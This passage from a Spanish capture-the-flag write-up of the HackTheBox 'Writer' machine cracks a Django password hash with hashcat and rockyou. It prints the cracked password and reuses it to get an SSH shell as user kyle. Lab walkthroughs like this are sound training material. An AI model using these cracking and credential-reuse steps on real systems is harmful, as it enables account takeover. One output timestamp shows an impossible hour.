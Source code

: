 ```bash
❱ hashcat -m 10000 django_hash.kyle /usr/share/wordlists/rockyou.txt -o cracked.txt
```

Ejecutamos yyyyyyy pasado un buen rato (recuerden no desesperarse) el hash es crackeadooooooooooooooooooooooooo:

```bash
...
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Django (PBKDF2-SHA256)
Hash.Target......: pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8...uXM4A=
Time.Started.....: Sat Oct  9 25:36:39 2021 (11 mins, 57 secs)
Time.Estimated...: Sat Oct  9 25:48:36 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       13 H/s (20.96ms) @ Accel:32 Loops:1024 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 9408/14344385 (0.07%)
Rejected.........: 0/9408 (0.00%)
Restore.Point....: 9376/14344385 (0.07%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:259072-259999
Candidates.#1....: missing -> 120287
...
```

```bash
❱ cat cracked.txt 
pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=:marcoantonio
```

El hash da como resultado en texto plano a `marcoantonio`, con lo cual esa sería su contraseña para el aplicativo web con `Django`, peeeeero ¿podría ser para otro servicio? ¿Quizás para el sistema? Probemos reutilización de contraseñas:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writer/361bash_kyleSH.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Y sí, obtenemos la Shell como `kyle` (: Aprovechemos que contamos con `SSH` para entablar una Shell ahí y seguir nuestro camino caminando:

```bash
❱ ssh kyle@10.10.11.101
```

...

# Avisos legales : kyle -> john [#](#disclaimer) {#disclaimer}

Estando dentro de primeras vemos algo interesante en los grupos donde esta `kyle`:

```bash
kyle@writer:~$ id
uid=1000(kyle) gid=1000(kyle) groups=1000(kyle),997(filter),1002(smbgroup)
```
